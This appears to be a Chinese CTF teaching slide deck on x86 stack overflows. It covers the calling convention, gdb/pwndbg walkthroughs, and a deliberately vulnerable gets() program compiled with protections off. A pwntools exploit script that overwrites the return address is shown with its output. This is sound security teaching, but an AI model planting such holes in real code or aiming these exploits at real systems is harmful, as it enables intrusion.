


<style>
/* Add "Page" prefix and total page number */
section::after {
  font-weight: bold;
  content: '' attr(data-marpit-pagination) '/' attr(data-marpit-pagination-total);
}
</style>
<!-- _class: lead gaia 
paginate: true
backgroundColor: white
color: black
-->
# 栈溢出

主讲人：卢玉洁
---
<!-- _backgroundColor: white -->

## 目录

- 栈溢出相关知识
    - 缓冲区溢出简介
    - 栈溢出原理介绍
- 栈溢出入门题

---
<!--_class: lead gaia>
-->
## 缓冲区溢出

---

缓冲区溢出实际就是在大缓冲区中的数据向小缓冲区复制的过程中，由于没有注意小缓冲区的边界，将小缓冲区撑爆，**从而冲掉了和小缓冲区相邻内存区域的其它数据引起的内存问题**。

成功利用缓冲区溢出漏洞可以修改内存中变量的值、劫持进程、执行恶意代码，最终获得主机的控制权。

---
<!--_class: lead gaia>
-->
## 栈溢出原理介绍（X86)

---

**进程使用的内存按照功能大致可以分为4个部分**

- 代码区：存储被装入执行的二进制机器代码，处理器在这个区域取指并执行
- 数据区：用于存储全局变量等
- 堆区：进程可以在堆区动态申请一定大小的内存，并在用完之后归还给堆区（malloc)
- 栈区：用于动态存储函数之间的调用关系，以确保被调用函数在返回时恢复到母函数中继续执行。函数调用时，系统栈会为此函数开辟新的栈帧，并把它压入栈中，函数返回时，系统栈释放对应的栈帧。

---
**函数调用主要涉及的寄存器**
- **esp**

  用于存储函数调用栈的栈顶指针。

- **ebp**

  存储当前函数状态的基地址，在函数运行过程中保持不变，用来索引确定函数参数和局部变量的位置。

- **eip**

  存储下一条指令地址/要执行指令的地址。
---

**函数调用大致过程**


- 参数入栈：将参数从右往依次入栈。
- 返回地址入栈：将当前代码区调用指令的下一条指令地址压入栈中，供函数返回时继续执行。
- 代码区跳转：处理器从当前代码区跳转到被调用函数的入口。
- 栈帧调整
  - 保存当前栈帧状态值（调用函数的EBP入栈）。
  - 将当前栈帧切换到新栈帧（将ESP值装入EBP，更新栈帧底部），给栈帧分配新空间。

---
<!--_class: lead gaia>
-->
### 函数调用详细过程讲解

---
## Example_1
```c
# include <stdio.h>
int B(int arg_1,int arg_2){
  int d;
  d = arg_1+arg_2;
  return d;
}
int A(int arg_1,int arg_2){
  int c;
  c = B(arg_1,arg_2);
}
int main(){
  int x = 1;
  int y = 1;
  A(x, y);
}
```

---
使用如下指令进行编译
```bash
# -m32 生成32位程序
# -fno-stack-protector 不开启堆栈溢出保护
# -no-pie 关闭PIE，避免加载基址被打乱
gcc -m32 -fno-stack-protector stack_test.c -o stack_example -no-pie
```
使用gdb调试查看函数调用的过程

---
## Example_2
```c
# include <stdio.h>
# include <string.h>
void success(){
  puts("You Have already controlled it.");
} 

void vulnerable(){
  char s[12];
  gets(s);
  return;
}

int main(int argc, char **argv){
  vulnerable();
  return 0;
}
```
---
将上述代码使用如下指令进行编译
```bash
# -m32 生成32位程序
# -fno-stack-protector 不开启堆栈溢出保护
# -no-pie 关闭PIE，避免加载基址被打乱
gcc -m32 -fno-stack-protector stack_example.c -o stack_example -no-pie

# 输出
# 可以看到，gets 本身是一个危险函数。gets不检查输入字符串的长度，以回车判断输入是否结束
stack_example.c: In function ‘vulnerable’:
stack_example.c:9:5: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
     gets(s);
     ^
/tmp/ccxZmB0S.o: In function `vulnerable':
stack_example.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```
---

使用 gdb 进行调试，可以看到 vulnerable() 调用 gets() 函数的过程


```c

►  0x8048454 <vulnerable>       push   ebp                     // 保存 main 函数的栈帧
   0x8048455 <vulnerable+1>     mov    ebp, esp                // 更新栈帧底部
   0x8048457 <vulnerable+3>     sub    esp, 0x18                  
   0x804845a <vulnerable+6>     sub    esp, 0xc
   0x804845d <vulnerable+9>     lea    eax, [ebp - 0x14]       
   0x8048460 <vulnerable+12>    push   eax                     // 局部变量入栈
   0x8048461 <vulnerable+13>    call   gets@plt <gets@plt>     //  调用函数gets 

   0x8048466 <vulnerable+18>    add    esp, 0x10
   0x8048469 <vulnerable+21>    nop
   0x804846a <vulnerable+22>    leave
   0x804846b <vulnerable+23>    ret

─
// 进入call指令之后栈的变化
pwndbg> info frame
Stack level 0, frame at 0xffffd4d0:
eip = 0xf7e61404 in _IO_gets (iogets.c:32); saved eip = 0x8048466
called by frame at 0xffffd500
source language c.
Arglist at 0xffffd4c8, args: buf=0xffffd4e4 ""
Locals at 0xffffd4c8, Previous frame's sp is 0xffffd4d0
Saved registers:
ebx at 0xffffd4bc, ebp at 0xffffd4c8, esi at 0xffffd4c0, edi at 0xffffd4c4, eip at 0xffffd4cc

```

---
结合之前介绍的函数调用栈的变化可以得出
```bash                
             +-----------------+
             |     retaddr     |
             +-----------------+
             |     saved ebp   |
      ebp--->+-----------------+
             |                 |
             |                 |
             |                 |
             |                 |
             |                 |
             |                 |
s,ebp-0x14-->+-----------------+
```

---
接下来，尝试覆盖 ```retaddr``` ,将其变成 ```success()``` 函数的地址，达到执行 ```success()``` 函数的目的
使用 ```b*success()``` 下断点的方式看看```success()```函数的地址
```c
pwndbg> b*success
Breakpoint 2 at 0x804843b
```
得到 ```success()``` 函数的地址，如果我们输入为```0x14*'a'+'bbbb'+success_addr```，此时，存储的 ebp 应该是```bbbb```,而 ```retaddr``` 应该是 ```0x804843b```。由于在终端输入的时候 \，x 等也算一个单独的字符。所以不能直接在终端输入，需要借助 ```pwntools```。

---
```py
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
sh.sendline(payload)
sh.interactive()

# 输出
cuc@cuc-VirtualBox:~/ctf$ python2 stack_example.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/cuc/.cache/.pwntools-cache-2.7/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.2.1 --> 4.2.2).
    Update with: $ pip install -U pwntools
[+] Starting local process './stack_example': pid 5656
;\x84\x04
[*] Switching to interactive mode
You Have already controlled it.
[*] Got EOF while reading in interactive

```
从输出可以看出，执行成功执行了```success()```。

---

<!--_class: lead gaia>
-->
## 栈溢出利用方法

---

上面的例子实际上已经展现了栈溢出的几个重要的步骤
- 寻找危险函数
- 确定填充长度

常见的危险函数有：
- 输入：gets、scanf、vscanf
- 输出：sprintf
- 字符串相关：strcpy、strcat、bcopy

确定填充长度一般借助IDA PRO、gdb等工具并根据具体的覆盖需求进行计算

---

利用栈溢出的基本思想就是通过覆盖函数的返回地址劫持程序控制流，主要方法如下：
- shellcode
- Return2libc
- ROP(Return Oriented Programming)
- Hijack GOT

--- 
### Shellcode
修改返回地址，让其指向溢出数据的一段指令

---
- 返回地址之前```padding1```应该多长?
可以使用 gdb 调试并运用超长输入探测（若返回地址被无效数据覆盖，程序将终止并报错，这是可以从报错信息看到是哪个地址被覆盖，从而可以计算出大小



---

### Return2libc
修改返回地址，让其指向内存中已有的某个函数

---
调用函数的地址可以使用IDA PRO、gdb等来查看（查看动态链接库libc获得相对地址而后使用libc基址+相对地址得）
函数参数同样可以搜索字符串，如果存在，就可以按照动态库起始地址＋相对偏移来确定其绝对地址。如果在动态库里找不到，可以将这个字符串加到环境变量里，再通过 getenv() 等函数来确定地址。



---
## 栈溢出入门题
---

- [XCTF when_did_you_born](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5051&page=1)
- [XCTF level0](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5053&page=1)【注意使用file level0 查看文件信息】
- [XCTF hellopwn](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5052&page=1)
